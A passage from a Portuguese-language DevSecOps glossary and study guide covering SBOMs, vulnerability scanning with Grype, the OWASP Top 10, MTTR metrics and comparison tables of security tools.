  "metadata": {
    "timestamp": "2024-02-10T15:42:10Z",
    "component": {
      "type": "application",
      "name": "my-web-app",
      "version": "1.2.3"
    }
  },
  "components": [
    {
      "type": "library",
      "name": "log4j-core",
      "version": "2.14.1",
      "purl": "pkg:maven/org.apache.logging.log4j/log4j-core@2.14.1",
      "hashes": [
        {
          "alg": "SHA-256",
          "content": "a3f7c8e9d2b1c4a5b6f8e7d9c1a2b3d4e5f6a7b8c9d1e2f3a4b5c6d7e8f9a1b2"
        }
      ]
    },
    {
      "type": "library",
      "name": "jackson-databind",
      "version": "2.13.0",
      "purl": "pkg:maven/com.fasterxml.jackson.core/jackson-databind@2.13.0"
    }
  ]
}
```

**Vulnerability Scanning com SBOM:**

```bash
# Grype (Anchore) - Scan SBOM for vulnerabilities
grype sbom:./sbom.json

NAME           INSTALLED  VULNERABILITY    SEVERITY
log4j-core     2.14.1     CVE-2021-44228   Critical
log4j-core     2.14.1     CVE-2021-45046   Critical
jackson-databind 2.13.0   CVE-2020-36518   High

# Export results
grype sbom:./sbom.json -o json > vulnerabilities.json

# Integrate with CI/CD
if grype sbom:./sbom.json --fail-on critical; then
  echo "✅ No critical vulnerabilities"
else
  echo "❌ Critical vulnerabilities found"
  exit 1
fi
```

---

### OWASP - Open Web Application Security Project

**Definição:** Fundação sem fins lucrativos que cria **padrões, ferramentas e documentação** de segurança de aplicações web.

**Principais Projetos:**

```yaml
OWASP Top 10:
  - Lista das 10 vulnerabilidades web mais críticas
  - Atualizada a cada 3-4 anos (última: 2021)
  - Referência global para web security

OWASP ASVS (Application Security Verification Standard):
  - Checklist de requisitos de segurança
  - 3 níveis (L1: Oportunista, L2: Padrão, L3: Avançado)

OWASP SAMM (Software Assurance Maturity Model):
  - Framework de maturidade de segurança
  - Avalia práticas de segurança organizacionais

OWASP ZAP:
  - Scanner DAST open-source
  - Proxy interceptor (similar ao Burp)

OWASP Dependency-Check:
  - SCA tool open-source
  - Identifica dependências vulneráveis

OWASP Cheat Sheets:
  - Guias práticos de segurança
  - Covers: XSS, SQLi, CSRF, Auth, Crypto, etc
```

**OWASP Top 10 (2021):**

|Rank|Nome|Descrição|
|---|---|---|
|**A01**|**Broken Access Control**|Bypass de autorização, acesso não autorizado|
|**A02**|**Cryptographic Failures**|Dados sensíveis sem criptografia|
|**A03**|**Injection**|SQL, NoSQL, Command, LDAP injection|
|**A04**|**Insecure Design**|Falhas de arquitetura/threat modeling|
|**A05**|**Security Misconfiguration**|Defaults inseguros, configs expostas|
|**A06**|**Vulnerable Components**|Dependências desatualizadas/vulneráveis|
|**A07**|**Authentication Failures**|Broken auth, session management|
|**A08**|**Software and Data Integrity**|Deserialization, unsigned code|
|**A09**|**Logging & Monitoring**|Falta de logs, detecção tardia|
|**A10**|**SSRF**|Server-Side Request Forgery|

**Mudanças 2017 → 2021:**

```diff
Removed:
- A04:2017 XML External Entities (XXE)
- A07:2017 Cross-Site Scripting (XSS)
- A08:2017 Insecure Deserialization

Added:
+ A04:2021 Insecure Design (NEW category)
+ A08:2021 Software and Data Integrity Failures
+ A10:2021 SSRF (Server-Side Request Forgery)

Merged:
  XSS → A03:2021 Injection
  XXE → A05:2021 Security Misconfiguration
```

---

### MTTR - Mean Time To Remediate/Response

**Definição:** KPI que mede o **tempo médio** entre a descoberta de uma vulnerabilidade e sua correção.

**Variantes:**

```yaml
MTTD (Mean Time to Detect):
  - Tempo até detectar incidente
  - Industry average: 24 days (2023)
  - Best practice: < 24 hours

MTTA (Mean Time to Acknowledge):
  - Tempo até reconhecer alert
  - Best practice: < 15 minutes

MTTR (Mean Time to Respond):
  - Tempo até iniciar resposta
  - Best practice: < 1 hour (critical), < 4 hours (high)

MTTC (Mean Time to Contain):
  - Tempo até conter ameaça
  - Best practice: < 4 hours (critical)

MTTR (Mean Time to Remediate):
  - Tempo até corrigir completamente
  - Best practice: 
    - Critical: 7 days
    - High: 30 days
    - Medium: 90 days

MTTR (Mean Time to Recover):
  - Tempo até restaurar operação normal
  - Best practice: < 24 hours
```

**Cálculo:**

```yaml
MTTR Formula:
  MTTR = Σ(Time to Remediate) / Number of Incidents

Example:
  Incident 1: Detected 2024-01-15, Fixed 2024-01-22 = 7 days
  Incident 2: Detected 2024-01-20, Fixed 2024-01-25 = 5 days
  Incident 3: Detected 2024-02-01, Fixed 2024-02-08 = 7 days
  
  MTTR = (7 + 5 + 7) / 3 = 6.3 days
```

**Benchmarks por Severidade:**

|Severity|MTTR Target|Industry Average|Best-in-Class|
|---|---|---|---|
|**Critical**|7 days|45 days|2 days|
|**High**|30 days|90 days|14 days|
|**Medium**|90 days|180 days|60 days|
|**Low**|365 days|Never|120 days|

**Fatores que afetam MTTR:**

```yaml
Technical:
  - Patch availability (vendor responsiveness)
  - Complexity of fix (code changes vs config)
  - Testing requirements (QA cycles)
  - Deployment window (change freeze)

Organizational:
  - Ownership clarity (who fixes it?)
  - Change approval process (CAB meetings)
  - Resource availability (developer bandwidth)
  - Risk acceptance culture

Tooling:
  - Automated deployment (CI/CD)
  - Test automation (regression tests)
  - Rollback capability (blue-green)
  - Monitoring (verify fix)
```

---

## 📊 Tabelas Comparativas

### AST Technologies Comparison

|Aspecto|SAST|DAST|IAST|SCA|RASP|
|---|---|---|---|---|---|
|**Timing**|Desenvolvimento|Pós-deploy|Testes|Build|Runtime|
|**Requires Running App**|❌ Não|✅ Sim|✅ Sim|❌ Não|✅ Sim|
|**Source Code Access**|✅ Sim|❌ Não|✅ Sim|❌ Não|❌ Não|
|**False Positive Rate**|🟡 Alto (30%)|🟢 Baixo (10%)|🟢 Muito Baixo (5%)|🟢 Baixo (10%)|🟢 Muito Baixo (1%)|
|**Coverage**|🟢 100%|🔴 20-40%|🟡 60-80%|🟢 100% deps|🟡 Runtime only|
|**Performance Impact**|🟢 Nenhum|🟡 Médio|🟡 Médio (10%)|🟢 Nenhum|🔴 Alto (15%)|
|**Identifies Line of Code**|✅ Sim|❌ Não|✅ Sim|✅ Sim|⚠️ Parcial|
|**Detects Runtime Issues**|❌ Não|✅ Sim|✅ Sim|❌ Não|✅ Sim|
|**Setup Complexity**|🟢 Fácil|🟡 Médio|🔴 Difícil|🟢 Fácil|🔴 Difícil|
|**Cost**|$$|$|$$$|$|$$$|
|**Best For**|Early detection|Final validation|Accurate findings|Dependency risk|Production defense|

---

### Cloud Security Tools Comparison

|Ferramenta|CSPM|CWPP|CIEM|KSPM|CNAPP|
|---|---|---|---|---|---|
|**Prisma Cloud**|✅|✅|✅|✅|✅|
|**Wiz**|✅|✅|✅|✅|✅|
|**Orca**|✅|✅|✅|✅|✅|
|**Aqua**|⚠️|✅|❌|✅|⚠️|
|**Sysdig**|⚠️|✅|❌|✅|⚠️|
|**Lacework**|✅|✅|✅|⚠️|✅|
|**AWS Security Hub**|✅|⚠️|⚠️|❌|❌|

---

### Vulnerability Severity SLA

|Severity|CVSS Score|Examples|MTTR Target|Scan Frequency|
|---|---|---|---|---|
|**Critical**|9.0-10.0|Log4Shell, BlueKeep|7 days|Daily|
|**High**|7.0-8.9|XSS, SQLi|30 days|Weekly|
|**Medium**|4.0-6.9|Information Disclosure|90 days|Monthly|
|**Low**|0.1-3.9|Minor misconfigs|365 days|Quarterly|

---

## 🔗 Links e Referências

**Standards & Frameworks:**

- OWASP: https://owasp.org
- MITRE ATT&CK: https://attack.mitre.org
- CWE: https://cwe.mitre.org
- NVD: https://nvd.nist.gov

**Tools:**

- SonarQube: https://www.sonarqube.org
- OWASP ZAP: https://www.zaproxy.org
- Snyk: https://snyk.io
- Trivy: https://aquasecurity.github.io/trivy

**Learning:**

- OWASP Cheat Sheets: https://cheatsheetseries.owasp.org
- DevSecOps Best Practices: https://www.devsecops.org

---

## 📝 Changelog

|Data|Versão|Alteração|
|---|---|---|
|2024-02-10|1.0|Documento inicial criado|

---

> **💡 Dica de estudo:** Foque primeiro no **triângulo fundamental**: **CI/CD** (onde), **SAST/DAST** (como), **CVE/CVSS** (o quê). Depois expanda para cloud (CSPM/CWPP) e operações (SIEM/SOAR).

**Mapa mental para memorização:**

```
DevSecOps
├─ Testing (AST)
│  ├─ Static (SAST)
│  ├─ Dynamic (DAST)
│  ├─ Composition (SCA)
│  ├─ Interactive (IAST)
│  └─ Protection (RASP)
│
├─ Cloud
│  ├─ Config (CSPM)
│  ├─ Workload (CWPP)
│  └─ Unified (CNAPP)
│
├─ Vulnerabilities
│  ├─ ID (CVE)
│  ├─ Score (CVSS)
│  └─ Type (CWE)
│
├─ Operations
│  ├─ Monitoring (SIEM)
│  ├─ Automation (SOAR)
│  └─ Intel (CTI)
│
└─ Process
   ├─ Pipeline (CI/CD)
   ├─ Inventory (SBOM)
   └─ Metrics (MTTR)
```

```

Este documento fornece uma referência completa e prática de todas as siglas e conceitos fundamentais de DevSecOps, com exemplos reais, comparações e melhores práticas. Use como guia de consulta rápida durante estudos ou trabalho operacional! 🔒
```